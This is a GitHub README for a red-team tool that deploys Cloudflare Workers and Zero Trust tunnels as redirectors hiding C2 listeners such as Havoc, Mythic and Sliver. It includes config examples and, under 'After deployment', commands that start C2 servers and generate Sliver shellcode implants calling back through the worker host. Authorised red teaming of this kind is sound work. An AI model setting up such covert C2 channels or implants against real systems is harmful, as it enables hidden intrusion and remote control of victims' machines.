



# Cloudflare-Redirector

Inspired by [Alfie Champion](https://twitter.com/ajpc500) [article](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/), I decided to publish my own version of a Cloudflare Redirector adding the Zero Trust aspect.



Note: The idea or "workflow" can be scaled and can also integrate more feature (Ex: Cloudflare WAF, KV store, R2 buckets, Queues, etc.). I may publish the more complete version in the future.

## V2 update (April 2024)

- Since my documentation was not that good, I made a little cli tool to facilate usage.
- Base on a configuration file to make it easier to apply your config.
- [timesafecheck](https://developers.cloudflare.com/workers/examples/protect-against-timing-attacks).
- Generate multiple router URLs with the `wrangler --env` feature (worker1, worker2, etc.).
- JWT (auth worker) with [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
  - JWT setup is overkill for this project, but wanted to try it out and learn new things.
- Support multiple C2 listeners.
- I made a branch `v1` with the old version.

note: Redirector worker and Auth worker does not have any public URL (only accessbile with worker service binding).

Todo:

- ~~add custom domain routing.~~
- ? (suggestions are welcome)

## Things you will need

- [wrangler cli](https://developers.cloudflare.com/workers/wrangler/). We will use `wrangler cli` to deploy.
  - To make sure wrangler cli is setup correctly: `wrangler whoami`
- A running C2 framework. Ex: [Havoc](https://github.com/HavocFramework/Havoc).
- Cloudflare "regular" account. (free)
  - Having a least one domain managed in your Cloudflare account.
- Initiate your Cloudflare Zero Trust account through your Cloudflare "regular" account. (will ask for a credit card but free for the first 50 users). See screenshot `1.jpg` in assets folder.
- Install Cloudflare tunnel ([cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/)) in your C2 server.

## Usage



## Setup



```bash
# clone the repo and cd into it

# copy the configuration file
cp config_demo.json config.json
# modify the config.json

chmod +x cli.sh
# run the cli with -f when its your first time deploying
./cli.sh -f
# you should see the workers in your Cloudflare dashboard
```

Config file example:

```json
{
  "cf_account_id": "<account_id>",
  "cf_account_dev_subdomain": "<subdomain>.workers.dev",
  "secrets": {
    "service_cf_id": "<service_cf_id>",
    "service_cf_secret": "<service_cf_secret>",
    "jwt_secret": "your_secret_key",
    "router_header": "X-Header",
    "router_header_secret": "secret_value",
    "auth_header": "X-Header-Gate",
    "auth_header_secret": "secret_value_auth_gate",
    "id_header": "X-ID"
  },
  "router_route": [
    {
      "id": 1,
      "name": "worker1",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker1.example.com"
    },
    {
      "id": 2,
      "name": "worker2",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker2.example.com"
    },
    {
      "id": 3,
      "name": "worker3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker3.example.com"
    }
  ],
  "listeners": [
    {
      "id": 1,
      "name": "havoc",
      "address": "https://havoc-listener.example.com/",
      "is_default": "false",
      "port": "443",
      "bind_port": "8443"
    },
    {
      "id": 2,
      "name": "mythic",
      "address": "https://mythic-listener.example.com/",
      "is_default": "true",
      "port": "443",
      "bind_port": "9443"
    },
    {
      "id": 3,
      "name": "sliver",
      "address": "https://sliver-listener.example.com/",
      "is_default": "false",
      "port": "443",
      "bind_port": "6443"
    }
  ]
}
```

Note: `id` value is what will be used in for the `X-ID` header. Taking the example above, mythic listener profile will need to have `X-ID: 2` in the header.

### Custom Domains

Using custom domain is optional (`router_route` default configuration doesnt need to be change). You can use the default `workers.dev` subdomain, which is set by the `cf_account_dev_subdomain` key in the config file. Just make sure to set `use_dev_subdomain` to true. So yes, if you set `use_dev_subdomain` to true, you don't need to do care about the `pattern` config.

If you want to use custom domain, here is an example:

```json
...
  "router_route": [
    {
      "id": 1,
      "name": "worker1",
      "use_custom_domain": "true",
      "use_dev_subdomain": "false",
      "pattern": "worker1.mycustomdomain.com"
    },
    {
      "id": 2,
      "name": "worker2",
      "use_custom_domain": "true",
      "use_dev_subdomain": "true",
      "pattern": "worker2.anothercustomdomain.com"
    },
    {
      "id": 3,
      "name": "worker3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker3.example.com"
    }
  ],
...
```

This configuration will create 4 URLs (Hosts for your C2 profile):

- `worker1.mycustomdomain.com`
- `worker2.anothercustomdomain.com`
- `worker2.<subdomain>.workers.dev`
- `worker3.<subdomain>.workers.dev`

note: domain(s) must be in the same Cloudflare account.

## Not sure about the Zero Trust part ?

First time setting up a cloudflare tunnel? Take a look at this [article](https://www.redteaming.org/cftunnels.html) provide by [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt).

I also took some screenshots that are in the assets folder, but in summary:

1. Access zero trust section

2. Create new service-auth token

3. Create new tunnel (and setting up on your C2 server)

4. **Create application (self-hosted) rules to protect your listener** (in the screenshots I'm using github authentication, but you can use the default "one-time pin". BTW, we only care about the Service-Auth policy since only our redirector need to visit listener url).

## After deployment

- Start C2 server with your modified profile.

```bash
# modify profiles/havoc/demo-profile.yaotl
./havoc server --profile profiles/cf-profile.yaotl -v

# modify ~/.sliver/configs/http-c2.json (add header)
profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder. You can also use the `wrangler tail` command.

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [Toby Schneider](https://github.com/tsndr) for [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
- [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt) for the [article](https://www.redteaming.org/cftunnels.html) on Cloudflare tunnel.
- [Yack](https://yack.one).
